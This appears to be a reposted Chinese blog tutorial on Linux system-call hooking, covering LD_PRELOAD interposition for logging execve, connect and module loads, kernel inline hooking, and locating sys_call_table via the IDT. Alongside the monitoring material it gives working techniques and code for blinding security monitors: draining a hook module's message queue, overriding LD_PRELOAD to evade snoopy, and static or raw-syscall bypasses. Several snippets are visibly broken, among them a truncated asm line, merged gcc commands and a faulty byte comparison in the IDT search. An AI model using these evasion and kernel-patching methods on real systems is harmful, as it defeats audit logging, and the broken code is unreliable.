 
<!--BEGIN_DATA
{
    "create_date": "2024-12-16 21:21", 
    "modify_date": "2024-12-16 21:21", 
    "is_top": "0", 
    "summary": "linux系统调用：深入解析Hook技术", 
    "tags": "Linux", 
    "file_name": "linux系统调用：深入解析Hook技术.md"
}
END_DATA-->

#### <p>原文出处：<a href='https://mp.weixin.qq.com/s/6qyZ7ybbuq2nCoqQKRqSZg' target='blank'>linux系统调用：深入解析Hook技术</a></p>

## 一. 系统调用Hook简介

系统调用（syscall）是一个通用的概念，它既包括应用层系统函数库的调用，也包括ring0层系统提供的syscall_table提供的系统api。

我们必须要明白，Hook技术是一个相对较宽的话题，因为操作系统从ring3到ring0是分层次的结构，在每一个层次上都可以进行相应的Hook，它们使用的技术方法以及取得的效果也是不尽相同的。本文的主题是"系统调用的Hook学习"，"系统调用的Hook"是我们的目的，而要实现这个目的可以有很多方法，本文试图尽量覆盖从ring3到ring0中所涉及到的Hook技术，来实现系统调用的监控功能。

## 二. Ring3中Hook技术

### 1: LD_PRELOAD动态连接.so函数劫持

`LD_PRELOAD hook`技术属于so依赖劫持技术的一种实现，所以要讨论这种技术的技术原理，我们先来看一下linux操作系统加载so的底层原理。

括Linux系统在内的很多开源系统都是基于Glibc的，动态链接的ELF可执行文件在启动时同时会启动动态链接器(/lib/ld-linux.so.X)，程序所依赖的共享对象全部由动态链接器负责装载和初始化，所以这里所谓的共享库的查找过程，本质上就是动态链接器(/lib/ld-linux.so.X)对共享库路径的搜索过程，搜索过程如下：

`/etc/ld.so.cache`：Linux为了加速`LD_PRELOAD`的搜索过程，在系统中建立了一个ldconfig程序，这个程序负责

  * 将共享库下的各个共享库维护一个SO-NAME(一一对应的符号链接)，这样每个共享库的SO-NAME就能够指向正确的共享库文件

  * 将全部SO-NAME收集起来，集中放到/etc/ld.so.cache文件里面，并建立一个SO-NAME的缓存

  * 当动态链接器要查找共享库时，它可以直接从/etc/ld.so.cache里面查找。所以，如果我们在系统指定的共享库目录下添加、删除或更新任何一个共享库，或者我们更改了/etc/ld.so.conf、/etc/ld.preload的配置，都应该运行一次ldconfig这个程序，以便更新SO-NAME和/etc/ld.so.cache。很多软件包的安装程序在结束共享库安装以后都会调用ldconfig

根据/etc/ld.so.preload中的配置进行搜索（`LD_PRELOAD`）：这个配置文件中保存了需要搜索的共享库路径，Linux动态共享库加载器根据顺序进行逐行广度搜索

根据环境变量`LD_LIBRARY_PATH`指定的动态库搜索路径：

根据ELF文件中的配置信息：任何一个动态链接的模块所依赖的模块路径保存在".dynamic"段中，由`DT_NEED`类型的项表示，动态链接器会按照这个路径去查找`DT_RPATH`所指定的路径，编译目标代码时，可以对gcc加入链接参数"-Wl,-rpath"指定动态库搜索路径。

  * `DT_NEED`段中保存的是绝对路径，则动态链接器直接按照这个路径进行直接加载

  * `DT_NEED`段中保存的是相对路径，动态链接器会在按照一个约定的顺序进行库文件查找下列路径：/lib、/usr/lib、/etc/ld.so.conf中配置指定的搜索路径

可以看到，`LD_PRELOAD`是Linux系统中启动新进程首先要加载so的搜索路径，所以它可以影响程序的运行时的链接(Runtime linker)，它允许你定义在程序运行前"优先加载"的动态链接库。

我们只要在通过`LD_PRELOAD`加载的.so中编写我们需要hook的同名函数，根据Linux对外部动态共享库的符号引入全局符号表的处理，后引入的符号会被省略，即系统原始的.so(/lib64/libc.so.6)中的符号会被省略。

通过strace program也可以看到，Linux是优先加载`LD_PRELOAD`指明的.so，然后再加载系统默认的.so的：



#### 1. 通过自写.so文件劫持LD_PRELOAD

##### 1）demo例子

正常程序main.c:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    if( strcmp(argv[1], "test") )
    {
        printf("Incorrect password\n");
    }
    else
    {
        printf("Correct password\n");
    }
    return 0;
}
```

用于劫持函数的.so代码hook.c

```c
#include <stdio.h>
#include <string.h>
#include <dlfcn.h>

/*
hook的目标是strcmp，所以typedef了一个STRCMP函数指针
hook的目的是要控制函数行为，从原库libc.so.6中拿到strcmp指针，保存成old_strcmp以备调用
*/
typedef int(*STRCMP)(const char*, const char*);

int strcmp(const char *s1, const char *s2)
{
    static void *handle = NULL;
    static STRCMP old_strcmp = NULL;

    if( !handle )
    {
        handle = dlopen("libc.so.6", RTLD_LAZY);
        old_strcmp = (STRCMP)dlsym(handle, "strcmp");
    }
    printf("oops!!! hack function invoked. s1=<%s> s2=<%s>\n", s1, s2);
    return old_strcmp(s1, s2);
}
```

编译：

```
gcc -o test main.c gcc -fPIC -shared -o hook.so hook.c -ldl
```

运行:

```
LD_PRELOAD=./hook.so ./test 123
```

##### 2）hook function注意事项

在编写用于function hook的.so文件的时候，要考虑以下几个因素

1. Hook函数的覆盖完备性

对于Linux下的指令执行来说，有7个Glibc API都可是实现指令执行功能，对这些API对要进行Hook

```c
/*
#include <unistd.h>
int execl(const char *pathname， const char *arg0， ... /* (char *)0 */ );
int execv(const char *pathname， char *const argv[]);
int execle(const char *pathname， const char *arg0， .../* (char *)0， char *const envp[] */ );
int execve(const char *pathname， char *const argv[]， char *const envp[]);
int execlp(const char *filename， const char *arg0， ... /* (char *)0 */ );
int execvp(const char *filename， char *const argv[]);
int fexecve(int fd， char *const argv[]， char *const envp[]);
http://www.2cto.com/os/201410/342362.html
*/
```

2. 当前系统中存在function hook的重名覆盖问题
    1) /etc/ld.so.preload中填写了多条.so加载条目
    2) 其他程序通过"export LD_PRELOAD=.."临时指定了待加载so的路径
在很多情况下，出于系统管理或者集群系统日志收集的目的，运维人员会向系统中注入.so文件，对特定function函数进行hook，这个时候，当我们注入的.so文件中的hook function和原有的hook function存在同名的情况，Linux会自动忽略之后载入了hook function，这种情况我们称之为"共享对象全局符号介入"

3. 注入.so对特定function函数进行hook要保持原始业务的兼容性典型的hook的做法应该是

```c
hook_function()
{
    save ori_function_address;
    /*
    do something in here
    span some time delay
    */
    call ori_function;
}
```

hook函数在执行完自己的逻辑后，应该要及时调用被hook前的"原始函数"，保持对原有业务逻辑的透明

4. 尽量减小hook函数对原有调用逻辑的延时

```c
hook_function()
{
    save ori_function_address;
    /*
    do something in here
    span some time delay
    */
    call ori_function;
}
```

hook这个操作是一定会对原有的代码调用执行逻辑产生延时的，我们需要尽量减少从函数入口到"call ori_function"这块的代码逻辑，让代码逻辑尽可能早的去"call ori_function"在一些极端特殊的场景下，存在对单次API调用延时极其严格的情况，如果延时过长可能会导致原始业务逻辑代码执行失败

如果需要不仅仅是替换掉原有库函数，而且还希望最终将函数逻辑传递到原有系统函数，实现透明hook(完成业务逻辑的同时不影响正常的系统行为)、维持调用链，那么需要用到`RTLD_NEXT`

```

当调用dlsym的时候传入RTLD_NEXT参数，gcc的共享库加载器会按照"装载顺序(load order)(即先来后到的顺序)"获取"下一个共享库"中的符号地址
/*
Specifies the next object after this one that defines name. This one refers to the object containing the invocation of dlsym(). The next object is the one found upon the application of a load order symbol resolution algorithm (see dlopen()). The next object is either one of global scope (because it was introduced as part of the original process image or because it was added with a dlopen() operation including the RTLD_GLOBAL flag), or is an object that was included in the same dlopen() operation that loaded this one.
The RTLD_NEXT flag is useful to navigate an intentionally created hierarchy of multiply-defined symbols created through interposition. For example, if a program wished to create an implementation of malloc() that embedded some statistics gathering about memory allocations, such an implementation could use the real malloc() definition to perform the memory allocation-and itself only embed the necessary logic to implement the statistics gathering function.
http://pubs.opengroup.org/onlinepubs/009695399/functions/dlsym.html
http://www.newsmth.net/nForum/#!article/KernelTech/413
*/
```

code example

```c
// used for getting the orginal exported function address
#if defined(RTLD_NEXT)
#  define REAL_LIBC RTLD_NEXT
#else
#  define REAL_LIBC ((void *) -1L)
#endif

//REAL_LIBC代表当前调用链中紧接着下一个共享库，从调用方链接映射列表中的下一个关联目标文件获取符号
#define FN(ptr,type,name,args)  ptr = (type (*)args)dlsym (REAL_LIBC, name)

...
FN(func,int,"execve",(const char *, char **const, char **const));
```

我们知道，如果当前进程空间中已经存在某个同名的符号，则后载入的so的同名函数符号会被忽略，但是不影响so的载入，先后载入的so会形成一个链式的依赖关系，通过`RTLD_NEXT`可以遍历这个链

##### 3）SO功能代码编写

这个小节我们来完成一个基本的进程、网络、模块加载监控的小demo。

    1. 指令执行  
        1) execve  
        2) execv  
    2. 网络连接  
        1) connect  
    3. LKM模块加载  
        1) init_module

hook.c

```c
#include <stdio.h>
#include <string.h>
#include <dlfcn.h>

#include <stdlib.h>
#include <sys/types.h>  
#include <string.h>
#include <unistd.h>
#include <limits.h>

#include <netinet/in.h> 
#include <linux/ip.h>
#include <linux/tcp.h>
 
#if defined(RTLD_NEXT)
#  define REAL_LIBC RTLD_NEXT
#else
#  define REAL_LIBC ((void *) -1L)
#endif

#define FN(ptr, type, name, args)  ptr = (type (*)args)dlsym (REAL_LIBC, name)
 
int execve(const char *filename, char *const argv[], char *const envp[])
{
    static int (*func)(const char *, char **, char **);
    FN(func,int,"execve",(const char *, char **const, char **const)); 

    //print the log
    printf("filename: %s, argv[0]: %s, envp:%s\n", filename, argv[0], envp);

    return (*func) (filename, (char**) argv, (char **) envp);
} 

int execv(const char *filename, char *const argv[]) 
{
    static int (*func)(const char *, char **);
    FN(func,int,"execv", (const char *, char **const)); 

    //print the log
    printf("filename: %s, argv[0]: %s\n", filename, argv[0]);

    return (*func) (filename, (char **) argv);
}  
  
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen) 
{ 
    static int (*func)(int, const struct sockaddr *, socklen_t);
    FN(func,int,"connect", (int, const struct sockaddr *, socklen_t)); 

    /*
    print the log
    获取、打印参数信息的时候需要注意
    1. 加锁
    2. 拷贝到本地栈区变量中
    3. 然后再打印
    调试的时候发现直接获取打印会导致core dump
    */
    printf("socket connect hooked!!\n");

    //return (*func) (sockfd, (const struct sockaddr *) addr, (socklen_t)addrlen);
    return (*func) (sockfd, addr, addrlen);
}  

int init_module(void *module_image, unsigned long len, const char *param_values) 
{ 
    static int (*func)(void *, unsigned long, const char *);
    FN(func,int,"init_module",(void *, unsigned long, const char *)); 

    /*
    print the log
    lkm的加载不需要取参数，只需要捕获事件本身即可
    */
    printf("lkm load hooked!!\n");

    return (*func) ((void *)module_image, (unsigned long)len, (const char *)param_values);
} 
```

编译，并装载

```
//编译出一个so文件
gcc -fPIC -shared -o hook.so hook.c -ldl
```

添加LD_PRELOAD有很多种方式

```c
1. 临时一次性添加(当条指令有效)
LD_PRELOAD=./hook.so nc www.baidu.com 80  
/*
LD_PRELOAD后面接的是具体的库文件全路径，可以连接多个路径
程序加载时，LD_PRELOAD加载路径优先级高于/etc/ld.so.preload
*/

2. 添加到环境变量LD_PRELOAD中(当前会话SESSION有效)
export LD_PRELOAD=/zhenghan/snoopylog/hook.so
//"/zhenghan/snoopylog/"是编译.so文件的目录
unset LD_PRELOAD

3. 添加到环境变量LD_LIBRARY_PATH中
假如现在需要在已有的环境变量上添加新的路径名，则采用如下方式
LD_LIBRARY_PATH=/zhenghan/snoopylog/hook.so:$LD_LIBRARY_PATH.（newdirs是新的路径串）
/*
LD_LIBRARY_PATH指定查找路径，这个路径优先级别高于系统预设的路径
*/

4. 添加到系统配置文件中
vim /etc/ld.so.preload
add /zhenghan/snoopylog/hook.so

5. 添加到配置文件目录中
cat /etc/ld.so.conf
//include ld.so.conf.d/*.conf
```

效果测试

    1. 指令执行  
    在代码中手动调用: execve(argv[1], newargv, newenviron);  
    2. 网络连接  
    执行: nc www.baidu.com 80  
    3. LKM模块加载  
    编写测试LKM模块，执行: insmod hello.ko

在真实的环境中，socket的网络连接存在大量的连接失败，非阻塞等待等等情况，这些都会触发connect的hook调用，对于connect的hook来说，我们需要对以下的事情进行过滤

```c
1. 区分IPv4、IPv6
根据connect参数中的(struct sockaddr *addr)->sa_family进行判断

2. 区分执行成功、执行失败
如果本次connect调用执行失败，则不应该继续进行参数获取
int ret_code = (*func) (sockfd, addr, addrlen);
int tmp_errno = errno;
if (ret_code == -1 && tmp_errno != EINPROGRESS)
{
    return ret_code;
}

3. 区分TCP、UDP连接
对于TCP和UDP来说，它们都可以发起connect请求，我们需要从中过滤出TCP Connect请求
#include <sys/types.h>
#include <sys/socket.h>

int getsockopt(int sock, int level, int optname, void *optval, socklen_t *optlen);
int setsockopt(int sock, int level, int optname, const void *optval, socklen_t optlen);
/*
#include <sys/types.h>
#include <sys/socket.h>
main()
{
   int s;
   int optval;
   int optlen = sizeof(int);
   if((s = socket(AF_INET, SOCK_STREAM, 0)) < 0)
   perror("socket");
   getsockopt(s, SOL_SOCKET, SO_TYPE, &optval, &optlen);
   printf("optval = %d\n", optval);
   close(s);
}
*/
执行：
optval = 1 //SOCK_STREAM 的定义正是此值
```

##### 4）劫持效果测试

1. 指令执行监控

execve.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
   char *newargv[] = { NULL, "hello", "world", NULL };
   char *newenviron[] = { NULL };

   if (argc != 2) 
   {
       fprintf(stderr, "Usage: %s <file-to-exec>\n", argv[0]);
       exit(EXIT_FAILURE);
   }

   newargv[0] = argv[1];

   execve(argv[1], newargv, newenviron);
   perror("execve");   /* execve() only returns on error */
   exit(EXIT_FAILURE);
}
//gcc -o execve execve.c
```

myecho.c

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    int j;

    for (j = 0; j < argc; j++)
        printf("argv[%d]: %s\n", j, argv[j]);

    exit(EXIT_SUCCESS);
}
//gcc -o myecho myecho.c
```




可以看到，LD_PRELOAD在所有程序代码库加载前优先加载，对glibc中的导出函数进行了hook

1. 网络连接监控

nc www.baidu.com 80



1. 模块加载监控

hello.c

```c
#include <linux/module.h>    // included for all kernel modules
#include <linux/kernel.h>    // included for KERN_INFO
#include <linux/init.h>        // included for __init and __exit macros
#include <linux/cred.h>
#include <linux/sched.h>
 
static int __init hello_init(void)
{ 
    struct cred *currentCred;
    currentCred = current->cred;    
    printk(KERN_INFO "uid = %d\n", currentCred->uid);
    printk(KERN_INFO "gid = %d\n", currentCred->gid);
    printk(KERN_INFO "suid = %d\n", currentCred->suid);
    printk(KERN_INFO "sgid = %d\n", currentCred->sgid);
    printk(KERN_INFO "euid = %d\n", currentCred->euid);
    printk(KERN_INFO "egid = %d\n", currentCred->egid);  

    printk(KERN_INFO "Hello world!\n"); 
    return 0;    // Non-zero return means that the module couldn't be loaded.
}
 
static void __exit hello_cleanup(void)
{
    printk(KERN_INFO "Cleaning up module.\n");
}
 
module_init(hello_init);
module_exit(hello_cleanup);
```

Makefile

```c
obj-m := hello.o
KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)
 
all:
    $(MAKE) -C $(KDIR) M=$(PWD) modules
 
clean:
    $(MAKE) -C $(KDIR) M=$(PWD) clean
```

加载模块：insmod hello.ko



1. 使用snoopy进行`execve/execv`、`connect`、`init_module hook`

snoopy会监控服务器上的命令执行，并记录到syslog。

本质上，snoopy是利用`ld_preload`技术实现so依赖劫持的，只是它的工程化完善度更高，日志采集和日志整理传输这方面已经帮助我们完成了。

```
#cat /etc/ld.so.preload/usr/local/snoopy/lib/snoopy.so
```

### 2: 绕过基于Linux消息队列(Message Queue)通信的Hook模块

消息队列提供了一种在两个不相关的进程之间传递数据的相当简单且有效的方法，但是对于消息队列的使用，很容易产生几点安全风险：

  1. 在创建消息队列的时候对message queue的权限控制没有严格控制，让任意非root用户也可以从消息队列中读取消息

  2. 在用户态标识消息队列的MSGID很容易通过"ipcs"指令得到，从而攻击者可以获取到和Hook模块相同的消息队列，从中读取消息

  3. Linux下的消息队列是内核态维护的一个消息队列，每个消息只能被"取出"一次

  4. 当系统中存在多个进程同时在从同一个消息队列中"消费"消息的时候，对消息队列中消息的获取的顺序是一个"竞态条件"，谁先获取到消息取决进程的内核调度优先级、以及接收进程自身的接收逻辑，为了提高"竞态条件"的"获胜率"，可以使用nice(-20);提高进程的静态优先级，从而间接影响到内核调度优先级

综合以上4点就可以得出一种，这本质上一种攻击”监控软件“本身的一种技术方式，如果监控软件使用消息队列进行日志的通信，则攻击者可以通过这种方式强制取出队列中的消息，从而使监控软件的监控失效。

code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ipc.h>
#include <sys/stat.h>
#include <sys/msg.h>

#define MSG_FILE "/etc/fstab"

#define BUF_SZ_63        63
#define BUF_SZ_255      255
#define BUF_SZ_511      511
#define BUF_SZ_1023    1023
#define BUF_SZ_10_KB  10239


#define OPERATION_PERMISSION 0666

#define MAGIC_NUMBER_1 (~0xDEADBEEF)
#define MAGIC_NUMBER_2 (~0xABABABAB)

#define AGX_SO_VER               7

#define GET_MSG_PROT(x) ((unsigned int)( (x & 0xFFFF0000) >> 16 ))
#define GET_MSG_TYPE(x) ((unsigned int)(  x & 0x0000FFFF) )

struct syscall_event 
{
    long msg_category;
    char msg_body[BUF_SZ_10_KB+1];
};

int main()
{
    int msg_id;
    int newpri; 

    if((msg_id = msgget((key_t)MAGIC_NUMBER_1+AGX_SO_VER, OPERATION_PERMISSION|IPC_CREAT|IPC_EXCL)) == -1)
    {
        if (EEXIST == errno)
        {
            printf("msqg already exist: %d\n", errno);
            if ((msg_id = msgget((key_t)MAGIC_NUMBER_1+AGX_SO_VER, OPERATION_PERMISSION|IPC_CREAT)) == -1)
            {
                printf("Unhandled error: %d\n", errno);
                exit(1);
            }
        }
        else
        {
            printf("Unhandled error: %d\n", errno);
            exit(1);
        }
    }

    //调整用户态的nice值。即内核态的静态优先级
    newpri = nice(-20);
    printf("New priority = %d\n", newpri);
    
    while(1)
    {
        struct syscall_event msg = {0, {0}}; 

        size_t count = msgrcv(msg_id, &msg, BUF_SZ_10_KB, 0, MSG_NOERROR);
        if (count == -1)
        {
            // error handling
            break;
        }

        printf("Server Receive: %lx, %lx\n%s\n", GET_MSG_PROT(msg.msg_category), GET_MSG_TYPE(msg.msg_category), msg.msg_body);
        
    }

    struct msqid_ds buf;
    int ret = msgctl(msg_id, IPC_RMID, &buf);
    if (ret ==  -1)
    {
        printf("rm msgq failed: %d\n", errno);
    }

    exit(0);
} 
```

### 3: 基于PD_PRELOAD、LD_LIBRARY_PATH环境变量劫持绕过Hook模块

我们知道，snoopy监控服务器上的指令执行，是通过修改系统的共享库预加载配置文件(/etc/ld.so.preload)实现，但是这种方式存在一个被黑客绕过的可能



`LD_PRELOAD`的加载顺序优先于/etc/ld.so.preload的配置项，黑客可以利用这点来强制覆盖共享库的加载顺序

```
1. 强制指定LD_PRELOAD的环境变量    
export LD_PRELOAD=/lib64/libc.so.6
bash
/*
新启动的bash终端默认会使用LD_PRELOAD的共享库路径
*/

2. LD_PRELOAD="/lib64/libc.so.6" bash 
/*
重新开启一个加载了默认libc.so.6共享库的bash session
因为对于libc.so.6来说，它没有使用dlsym去动态获取API Function调用链条的RTL_NEXT函数，即调用链是断开的
*/
```

在这个新的Bash下执行的指令，因为都不会调用到snoopy的hook函数，所以也不会被记录下来

### 4: 基于ptrace()调试技术进行API Hook

在Linux下，除了使用LD_PRELOAD这种被动Glibc API注入方式，还可以使用基于调试器(Debuger)思想的ptrace()主动注入方式，总体思路如下

  1. 使用Linux Module、或者LSM挂载点对进程的启动动作进行实时的监控，并通过Ring0-Ring3通信，通知到Ring3程序有新进程启动的动作

  2. 用ptrace函数attach上目标进程

  3. 让目标进程的执行流程跳转到mmap函数来分配一小段内存空间

  4. 把一段机器码拷贝到目标进程中刚分配的内存中去

  5. 最后让目标进程的执行流程跳转到注入的代码执行

### 5: 通过静态编码绕过LD_PRELOAD机制监控

通过静态链接方式编译so模块：

```c
gcc -o test test.c -static 
```

在静态链接的模式下，程序不会去搜索系统中的so文件(不同是系统默认的、还是第三方加入的)，所以也就不会调用到Hook SO模块。

### 6：通过内联汇编的方式绕过LD_PRELOAD机制监控

使用内嵌汇编的形式直接通过syscall指令使用系统调用功能，同样也不会调用到Glibc提供的API。

```
asm("movq $2, %%rax\n\t syscal:"=a"(ret));
```

7: 基于PLT劫持、PLT重定向技术实现Hook

## 三. Ring0中Hook技术

### 1: Kernel Inline Hook

传统的kernel inline hook技术就是修改内核函数的opcode，通过写入jmp或push ret等指令跳转到新的内核函数中，从何达到劫持的目的



  * 我们知道实现一个系统调用的函数中一定会递归的嵌套有很多的子函数，即它必定要调用它的下层函数。

  * 从汇编的角度来说，对一个子函数的调用是采用"段内相对短跳转 jmp offset"来实现的，即CPU根据offset来进行一个偏移量的跳转。 如果我们把下层函数在上层函数中的offset替换成我们"Hook函数"的offset，这样上层函数调用下层函数时，就会跳到我们的"Hook函数"中。

  * 我们就可以在"Hook函数"中做过滤和劫持内容的工作

以`sys_read`作为例子

`\linux-2.6.32.63\fs\read_write.c`

```c
asmlinkage ssize_t sys_read(unsigned int fd, char __user * buf, size_t count)
{
        struct file *file;
        ssize_t ret = -EBADF;
        int fput_needed;

        file = fget_light(fd, &fput_needed);
        if (file) 
    {
                loff_t pos = file_pos_read(file);
                ret = vfs_read(file, buf, count, &pos);
                file_pos_write(file, pos);
                fput_light(file, fput_needed);
        }

        return ret;
}
EXPORT_SYMBOL_GPL(sys_read);
```

在`sys_read()`中，调用了子函数`vfs_read()`来完成读取数据的操作，在`sys_read()`中调用子函数`vfs_read()`的汇编命令是:

`call 0xc106d75c <vfs_read>`

等同于:

`jmp offset(相对于sys_read()的基址偏移)`

所以，我们的思路很明确，找到`call 0xc106d75c <vfs_read>`这条汇编，把其中的offset改成我们的Hook函数对应的offset，就可以实现劫持目的了

1. 搜索`sys_read`的opcode  2. 如果发现是call指令，根据call后面的offset计算要跳转的地址是不是我们要hook的函数地址 1) 如果"不是"就重新计算Hook函数的offset，用Hook函数的offset替换原来的offset 2)如果"已经是"Hook函数的offset，则说明函数已经处于被劫持状态了，我们的Hook引擎应该直接忽略跳过，避免重复劫持

poc:

```c
/*
参数：
1. handler是上层函数的地址，这里就是sys_read的地址
2. old_func是要替换的函数地址，这里就是vfs_read
3. new_func是新函数的地址，这里就是new_vfs_read的地址
*/
unsigned int patch_kernel_func(unsigned int handler, unsigned int old_func, 
        unsigned int new_func)
{
    unsigned char *p = (unsigned char *)handler;
    unsigned char buf[4] = "\x00\x00\x00\x00";
    unsigned int offset = 0;
    unsigned int orig = 0;
    int i = 0;

    DbgPrint("\n*** hook engine: start patch func at: 0x%08x\n", old_func);

    while (1) {
        if (i > 512)
            return 0;

        if (p[0] == 0xe8) {
            DbgPrint("*** hook engine: found opcode 0x%02x\n", p[0]);
            
            DbgPrint("*** hook engine: call addr: 0x%08x\n", 
                (unsigned int)p);
            buf[0] = p[1];
            buf[1] = p[2];
            buf[2] = p[3];
            buf[3] = p[4];

            DbgPrint("*** hook engine: 0x%02x 0x%02x 0x%02x 0x%02x\n", 
                p[1], p[2], p[3], p[4]);

                offset = *(unsigned int *)buf;
                DbgPrint("*** hook engine: offset: 0x%08x\n", offset);

                orig = offset + (unsigned int)p + 5;
                DbgPrint("*** hook engine: original func: 0x%08x\n", orig);

            if (orig == old_func) {
                DbgPrint("*** hook engine: found old func at"
                    " 0x%08x\n", 
                    old_func);

                DbgPrint("%d\n", i);
                break;
            }
        }
        p++;
        i++;
    }

    offset = new_func - (unsigned int)p - 5;
    DbgPrint("*** hook engine: new func offset: 0x%08x\n", offset);

    p[1] = (offset & 0x000000ff);
    p[2] = (offset & 0x0000ff00) >> 8;
    p[3] = (offset & 0x00ff0000) >> 16;
    p[4] = (offset & 0xff000000) >> 24;

    DbgPrint("*** hook engine: pachted new func offset.\n");

    return orig;
} 
```

对于这类劫持攻击，目前常见的做法是fireeye的"函数返回地址污点检测"，通过对原有指令返回位置的汇编代码作污点标记，通过查找jmp，push ret等指令来进行防御。

### 2: 利用0x80中断劫持`system_call->sys_call_table`进行系统调用Hook

我们知道，要对系统调用(`sys_call_table`)进行替换，却必须要获取该地址后才可以进行替换。但是Linux 2.6版的内核出于安全的考虑没有将系统调用列表基地址的符号`sys_call_table`导出，但是我们可以采取一些hacking的方式进行获取。

因为系统调用都是通过0x80中断来进行的，故可以通过查找0x80中断的处理程序来获得`sys_call_table`的地址。其基本步骤是

1. 获取中断描述符表(IDT)的地址(使用C ASM汇编) 
2. 从中查找0x80中断(系统调用中断)的服务例程(8*0x80偏移) 
3. 搜索该例程的内存空间， 
4. 从其中获取`sys_call_table`(保存所有系统调用例程的入口地址)的地址

编程示例

`find_sys_call_table.c`

```c
#include <linux/module.h>
#include <linux/kernel.h>

// 中断描述符表寄存器结构
struct 
{
    unsigned short limit;
    unsigned int base;
} __attribute__((packed)) idtr;


// 中断描述符表结构
struct 
{
    unsigned short off1;
    unsigned short sel;
    unsigned char none, flags;
    unsigned short off2;
} __attribute__((packed)) idt;

// 查找sys_call_table的地址
void disp_sys_call_table(void)
{
    unsigned int sys_call_off;
    unsigned int sys_call_table;
    char* p;
    int i;

    // 获取中断描述符表寄存器的地址
    asm("sidt %0":"=m"(idtr));
    printk("addr of idtr: %x\n", &idtr);

    // 获取0x80中断处理程序的地址
    memcpy(&idt, idtr.base+8*0x80, sizeof(idt));
    sys_call_off=((idt.off2<<16)|idt.off1);
    printk("addr of idt 0x80: %x\n", sys_call_off);

    // 从0x80中断服务例程中搜索sys_call_table的地址
    p=sys_call_off;
    for (i=0; i<100; i++)
    {
        if (p=='\xff' && p[i+1]=='\x14' && p[i+2]=='\x85')
        {
            sys_call_table=*(unsigned int*)(p+i+3);
            printk("addr of sys_call_table: %x\n", sys_call_table);
            return ;
        }
    }
}

// 模块载入时被调用
static int __init init_get_sys_call_table(void)
{
    disp_sys_call_table();
    return 0;
}

module_init(init_get_sys_call_table);

// 模块卸载时被调用
static void __exit exit_get_sys_call_table(void)
{
}

module_exit(exit_get_sys_call_table);

// 模块信息
MODULE_LICENSE("GPL2.0");
MODULE_AUTHOR("LittleHann");
```

Makefile

```c
obj-m := find_sys_call_table.o  
```

编译

```c
make -C /usr/src/kernels/2.6.32-358.el6.i686 M=$(pwd) modules
```

测试效果

dmesg| tail



获取到了`sys_call_table`的基地址之后，我们就可以修改指定offset对应的系统调用了，从而达到劫持系统调用的目的

### 3: 获取sys_call_table的常用方法

1. 通过dump获取绝对地址

